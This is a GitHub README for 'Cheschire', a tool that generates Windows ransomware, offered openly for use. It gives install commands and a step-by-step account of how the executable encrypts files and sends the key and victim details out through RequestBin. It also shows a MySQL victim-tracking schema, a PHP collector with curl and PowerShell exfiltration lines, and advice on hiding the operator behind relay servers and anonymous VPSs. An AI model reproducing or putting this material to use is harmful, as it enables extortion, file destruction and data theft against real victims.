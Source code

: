 # Cheschire

[![Version](https://img.shields.io/badge/Version-1.0-blue.svg?style=for-the-badge)]()
[![Language](https://img.shields.io/badge/Bash-4.2%2B-brightgreen.svg?style=for-the-badge)]()
[![Available](https://img.shields.io/badge/Available-Debian-orange.svg?style=for-the-badge)]()
[![Download](https://img.shields.io/badge/Size-260K-brightgreen.svg?style=for-the-badge)]()
[![License](https://img.shields.io/badge/License-GPL%20v3%2B-red.svg?style=for-the-badge)](https://github.com/hacknonym/Cheschire/blob/master/LICENSE)

### Author: github.com/hacknonym

## A Windows Ransomware

![Banner](https://user-images.githubusercontent.com/55319869/87875498-d65d2d80-c9d1-11ea-98af-b7b989868d0a.PNG)

**Cheschire** generate executable ranwomware for Windows target. #cheschire #ransomware
# Using the AES encryption algorithm powershell module from https://github.com/thelinuxchoice/hidden-cry.git

## Legal disclaimer

Usage of **Cheschire** for attacking targets without prior mutual consent is illegal.
Do not use in military or secret service organizations, or for illegal purposes.
It's the end user's responsibility to obey all applicable local, state and federal laws. 
Developer assume no liability and is not responsible for any misuse or damage caused by this program.

## Features !
 - Specify location where to start encryption *e.g. ($home)*
 - Specify a specific extension *e.g. (.cheschire)*
 - Specify a ransom amount
 - Specify a Bitcoin address
 - Specify a decoy program *e.g. (avast antivirus)*
 - Specify a specific wallpaper
 - Specify speficic extensions *e.g. (.jpg, .docx)*
 - Specify a icon for the main program

## Installation and Usage
Necessary to have root rights
```bash
git clone https://github.com/hacknonym/Cheschire.git
cd Cheschire
sudo chmod +x displaydb.sh
sudo chmod +x listener.sh
sudo chmod +x cheschire.sh
sudo ./cheschire.sh
```
To compile the generated files, use [**Bat_to_Exe_Convertor**.](https://bat-to-exe-converter-x64.en.softonic.com/) 

## Operating steps
**Ransomware (.exe) steps**
- Move to the directory ``` %APPDATA% ```
- Launch of the integrated decoy program, *e.g. avast.exe*
- Creation of the directory ``` %USERPROFILE%\Documents\WindowsPowerShell\Modules\Cipher ```
- Move to the directory ``` %USERPROFILE%\Documents\WindowsPowerShell\Modules\Cipher ```
- Creation of the file __Cipher.psm1__
- Random generation of an identifier of the form {xxx-xxx-xxx}
- Creation of the file __cry.ps1__
- Launch of the file __cry.ps1__
  * Random generation of a secret key, *e.g. o6nklwri0s4d39hc7gxmzv5qlgy1xc4eu3a2dr7h8i0=*
  * Encoding information in Base64
  * Sending the encoded information (secret key, ID, Date, Time, Username, Computer Name, Public IP) to the hacker via [RequestBin](https://requestbin.io/)
  * Import module __Cipher.psm1__ and start encryption on the specified extensions
- Move to the directory ``` %USERPROFILE%\Desktop ```
- Creation of the file __readme.html__
- Launch of the file __readme.html__
- Copy the file ``` %APPDATA%\decrypt0r.exe ``` to ``` %USERPROFILE%\Desktop\ ```
- Changing the wallpaper with ``` %APPDATA%\wallpaper.jpg ```
- Deleting files embedded in ``` %APPDATA% ``` (avast.exe, wallpaper.jpg, decrypt0r.exe)

**decrypt0r.exe steps**
- Creation of the directory ``` %USERPROFILE%\Documents\WindowsPowerShell\Modules\decry ```
- Move to the directory ``` %USERPROFILE%\Documents\WindowsPowerShell\Modules\decry ```
- Creation of the file __decry.psm1__
- Creation of the file __decryGUI.ps1__
- Launch of the file __decryGUI.ps1__
  * Opening a graphic window (GUI) to enter the secret key
  * If the field is not empty then we try to decrypt the files and if the files have been decrypted then delete the files (decry.psm1, decryGUI.ps1) in ``` %USERPROFILE%\Documents\WindowsPowerShell\Modules\decry ``` otherwise if the field is empty or the key incorrect, nothing happens (closing the window)
  
## Using MySQL DataBase
Creating a new user
```bash
mysql> CREATE USER 'newuser'@'localhost' IDENTIFIED BY 'password';
mysql> GRANT ALL PRIVILEGES ON * . * TO 'newuser'@'localhost';
```
Once the new user has been created, specify credentials in the **ident.txt** file
<br />**Default credentials**
```text
DBNAME : Cheschire
USERNAME : root
PASSWORD : 
```

DATABASE NAME: **Cheschire**
| TABLES |
|  :------:  |
|  Victim  |
|  Country |

**Victim** TABLE
| Field | Type | Null | Key | Default | Extra |
| --- | --- | --- | --- |--- |--- |
| Id_Victim | int(11) | NO | PRI | NULL | auto_increment |
| Date_Compromise | datetime | YES | --- | NULL | --- |
| IP_Address | varchar(15) | YES | --- | NULL | --- |
| ISP | text | YES | --- | NULL | --- |
| Country | varchar(2) | YES | MUL | NULL | --- |
| Region | text | YES | --- | NULL | --- |
| City | text | YES | --- | NULL | --- |
| Timezone | varchar(100) | YES | --- | NULL | --- |
| User_Name | varchar(50) | YES | --- | NULL | --- |
| Computer_Name | varchar(50) | YES | --- | NULL | --- |
| Ident | varchar(17) | YES | --- | NULL | --- |
| Secret_Key |  varchar(45) | YES | --- | NULL | --- |

**Country** TABLE
| Field | Type | Null | Key | Default | Extra |
| --- | --- | --- | --- |--- | --- |
| Id_Country | varchar(2) | NO | PRI | NULL | --- |
| Name | varchar(60) | NO | --- | NULL | --- |

## Why use RequestBin to send information
It is quite possible to send the information through an HTTP request directly to our server without going through a service provider
**index.php**
```php
<?php
if(isset($_GET["query"])){
    $file = fopen("output.txt", "a+");
    fwrite($file, $_GET['query']."\n");
}
?>
```
Launch the server
```bash
$> php -S 0.0.0.0:8080
```
Send a request from Windows (Command Prompt & PowerShell)
```PowerShell
cmd> curl http://<IP_SERVER>:8080/?query=Hello World

PS> (New-Object System.Net.WebClient).DownloadString("http://<IP_SERVER>:8080/?query=" + "Hello World")
```
However for the victim to be able to send information, our server must be accessible
by Internet (if not on the same local network). But by making accessible
the server from the Internet, we expose ourselves to risks concerning our identity.
Indeed, if the victim analyzes his outgoing connection logs, the public IP address of the
remote server (our HTTP server) will be displayed in plain text while sending information.

## Why use Bat_to_Exe_Convertor to compile
For all this to work, we need to have 3 files
- the decryption program (.exe),
- a wallpaper (.jpg)
- a decoy program (.exe).

It is impossible to integrate these three files inside an executable (e.g. in a
C program), it would then be necessary to download them from the Internet
on the target machine (if not on the same local network), but it would be necessary
to take adequate measures regarding the anonymity of the server from which these
files would be downloaded, in this case it is therefore imperative to use
- Relay servers
- Anonymous VPS
- External service providers (e.g. https://www.mediafire.com/, http://ge.tt/, etc.)

In addition, this does not exclude a potential blockage of certain
ports, services, IP addresses due to a firewall, which would prevent us from
download our files.

## Tools Overview
![Create Ransomware](https://user-images.githubusercontent.com/55319869/87853921-5ae67800-c90e-11ea-9c51-f1d5bacc8fdf.png)
![Check & Compile info](https://user-images.githubusercontent.com/55319869/87853923-5c17a500-c90e-11ea-8fb6-c4881e41f270.png)
![DATABASE interactions](https://user-images.githubusercontent.com/55319869/87853925-5d48d200-c90e-11ea-9712-4a5dbb8defe6.png)
![List victims from the DATABASE](https://user-images.githubusercontent.com/55319869/87853926-5e79ff00-c90e-11ea-80a9-730a1275804e.png)
![Number of victims](https://user-images.githubusercontent.com/55319869/87853928-5fab2c00-c90e-11ea-81ec-f220e7daf716.png)
![Instructions](https://user-images.githubusercontent.com/55319869/87875372-2091df00-c9d1-11ea-9e25-59b2647b3bb7.png)

## License
GNU General Public License v3.0 for Cheschire
AUTHOR: @hacknonym

